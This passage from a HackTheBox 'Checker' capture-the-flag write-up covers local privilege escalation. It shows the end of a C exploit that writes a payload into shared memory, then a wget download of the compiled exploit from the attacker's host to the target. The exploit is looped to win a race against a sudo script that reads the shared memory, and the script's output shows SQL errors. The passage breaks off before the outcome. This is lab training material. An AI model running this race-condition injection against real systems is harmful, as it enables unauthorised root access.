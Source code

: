 ```c
    exit(1);
    }

    // We write our payload to the memory location
    snprintf(shm_ptr, MEMSIZE, "%s", payload);
    if (shmdt(shm_ptr) == -1) {
    printf("[!] shmdt error\n");
    exit(1);
    }
    return 0;
}
```

Then we `compiled` and `uploaded` our `exploit` to the box.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Checker/serve]
└─$ gcc exploit.c -o exploit
```

```c
reader@checker:/tmp$ wget http://10.10.14.69/exploit
--2025-02-25 08:22:30--  http://10.10.14.69/exploit
Connecting to 10.10.14.69:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 16336 (16K) [application/octet-stream]
Saving to: ‘exploit’

exploit                                                    100%[========================================================================================================================================>]  15.95K  --.-KB/s    in 0.02s   

2025-02-25 08:22:30 (926 KB/s) - ‘exploit’ saved [16336/16336]
```

In order to `execute` it, we made it `executable` by setting the relevant `permission` on the file.

```c
reader@checker:/tmp$ chmod +x exploit
```

```c
reader@checker:/tmp$ ls -la /bin/bash
-rwxr-xr-x 1 root root 1396520 Mar 14  2024 /bin/bash
```

Since the `random number generator` was `seeded` with `time()` we needed to `win` the `race condition` and therefore we created a simple `loop` to execute our `exploit`.

```c
reader@checker:/tmp$ while true; do ./exploit; done
```

In a `second shell` we then also `looped` through the `check-leak.sh` script to start our attack.

```c
reader@checker:~$ while true; do sudo /opt/hash-checker/check-leak.sh bob; done
Password is leaked!
Using the shared memory 0x6BEE as temp location
ERROR 1064 (42000) at line 1: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '"' at line 1
Failed to read result from the db
Password is leaked!
Using the shared memory 0xB3023 as temp location
ERROR 1064 (42000) at line 1: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '"' at line 1
Failed to read result from the db
Password is leaked!
Using the shared memory 0xA09F9 as temp location
```